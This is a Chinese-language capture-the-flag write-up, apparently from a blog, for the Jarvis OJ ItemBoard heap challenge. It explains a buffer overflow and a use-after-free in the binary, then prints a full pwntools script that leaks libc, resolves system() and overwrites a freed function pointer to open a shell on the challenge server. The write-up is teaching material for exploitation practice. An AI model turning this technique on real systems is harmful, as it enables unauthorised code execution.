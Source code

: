 ```yaml
---
title: Jarvis OJ - ItemBoard の Write-Up
date: 2020-10-20 16:45:47
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Heap
---
```

## Introduction

&emsp;&emsp;一道比较简单的堆溢出的题目，主要是配合测试下小工具[LibcOffset](https://github.com/Coldwave96/LibcOffset)，一个用来计算各个版本的libc文件main_arena offset的Python脚本。

<!-- more -->

&emsp;&emsp;程序运行截图：看起来是一道典型的堆溢出题目

![](/img/ItemBoard/ItemBoard1.png)

&emsp;&emsp;checksec：64位程序，有DEP和ASLR保护机制

![](/img/ItemBoard/ItemBoard2.png)

## Analysis

&emsp;&emsp;将程序通过IDA Pro逆向查看伪代码，首先是main函数：

![](/img/ItemBoard/ItemBoard3.png)

&emsp;&emsp;new_item函数创建新的item：

![](/img/ItemBoard/ItemBoard4.png)

&emsp;&emsp;list_item列出所有的item：

![](/img/ItemBoard/ItemBoard5.png)

&emsp;&emsp;show_item展示具体的item：

![](/img/ItemBoard/ItemBoard6.png)

&emsp;&emsp;remove_item函数删除item：

![](/img/ItemBoard/ItemBoard7.png)

&emsp;&emsp;通过初步的分析发现代码中存在两处问题：

* 一是在new_item函数中buf的大小是1024，但是函数中并没有限制content_len的大小，所以当输入内容超过buf大小之后会造成缓冲区溢出，被利用构造ROP Chain。

* 二是在remove_item函数中本该释放item指针的set_null函数实际上却是个空函数，所以实际上这个函数并没有什么用，存在UAF漏洞。

&emsp;&emsp;结合题目给出了libc.so文件，大体上的思路是利用UAF泄露基地址和libc地址，进而获取system函数的地址。再利用UAF或者ROP Chain执行system函数getshell。

&emsp;&emsp;利用自己编写的小工具[LibcOffset](https://github.com/Coldwave96/LibcOffset)查询本地以及题目给的libc文件的main_arena_offset。

&emsp;&emsp;本地调试环境：

![](/img/ItemBoard/ItemBoard8.png)

&emsp;&emsp;题目给的是glibc 2.19版本的：

![](/img/ItemBoard/ItemBoard9.png)

## Solution

&emsp;&emsp;这里只记录通过UAF get shell的方法：

```Python
# coding:utf-8
from pwn import *

local = 0

if local:
    sh = process('./itemboard')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    offset = 0x3c4b20
else:
    sh = remote('pwn2.jarvisoj.com', '9887')
    libc = ELF('./libc-2.19.so')
    offset = 0x3c2760

elf = ELF('./itemboard')

def Add(name, len, conts):
    sh.recvuntil('choose:\n')
    sh.sendline('1')
    sh.recvuntil('Item name?\n')
    sh.sendline(name)
    sh.recvuntil("Description's len?\n")
    sh.sendline(str(len))
    sh.recvuntil('Description?\n')
    sh.sendline(conts)

def List():
    sh.recvuntil('choose:\n')
    sh.sendline('2')

def Show(num):
    sh.recvuntil('choose:\n')
    sh.sendline('3')
    sh.recvuntil('Which item?\n')
    sh.sendline(str(num))

def Remove(num):
    sh.recvuntil('choose:\n')
    sh.sendline('4')
    sh.recvuntil('Which item?\n')
    sh.sendline(str(num))

# Libc地址 + system地址
Add('1', 0x80, 'a' * 8)
Add('2', 0x80, 'b' * 8)
Remove(0)
Show(0)

sh.recvuntil('Description:')
leak_addr = u64(sh.recv(6).ljust(8, '\x00'))

libc_addr = leak_addr - 88 - offset
sys_addr = libc_addr + libc.symbols['system']

# UAF get shell
Add('cccc', 32, 'cccc')
Add('dddd', 32, 'dddd')
Remove(2)
Remove(3)

Add('eeee', 24, '/bin/sh;' + 'eeeeeeee' + p64(sys_addr))
Remove(2)

sh.interactive()
sh.close()
```

&emsp;&emsp;运行结果：

![](/img/ItemBoard/ItemBoard10.png)
